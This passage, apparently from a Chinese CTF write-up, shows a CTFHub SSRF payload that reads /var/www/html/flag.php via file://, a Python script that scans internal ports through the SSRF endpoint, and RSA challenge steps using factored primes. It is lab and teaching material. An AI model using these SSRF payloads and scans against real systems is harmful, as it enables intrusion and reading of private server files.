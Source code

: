 构造payload:

```url
?url=file:///var/www/html/flag.php
```

### 10 ssrf之端口扫描

```python
import requests
url="http://challenge-e35db79659317cae.sandbox.ctfhub.com:10800/?url=127.0.0.1:8000"
for index in range(8000,9001):
  url_1= f"http://challenge-e35db79659317cae.sandbox.ctfhub.com:10800/?url=127.0.0.1:{index}"
  res = requests.get(url_1)
  print(index,res.text)
```

# 密码

## 01题 What's RSA？:

拥有私钥时：

在kali中输入命令

<img src="https://img1.imgtp.com/2023/09/03/WPnUEM6v.png" alt="9109331575293a3e7d98246a9fa6d09" style="zoom:50%;" />

## 02题 RSA2：

当拥有公钥时：

首先从公钥中获取e和m

<img src="https://img1.imgtp.com/2023/09/03/09t9398N.png" alt="66e44afaf54afdf3fbc9561b4623676" style="zoom:50%;" />

将16进制m进行转换

<img src="https://img1.imgtp.com/2023/09/03/JsKSJCN8.png" alt="4748f7702c1a3547d377fdf9b76fb8a" style="zoom:50%;" />

利用http://factordb.com/进行拆解，得出p,q

![image-20230723004645846](https://img1.imgtp.com/2023/09/03/UMeatThD.png)

p= [275127860351348928173285174381581152299](http://factordb.com/index.php?id=1100000000836631227)

q=[319576316814478949870590164193048041239](http://factordb.com/index.php?id=1100000000836631226)

## 03题 Wiener Tricky：



## 04题 crypto1:
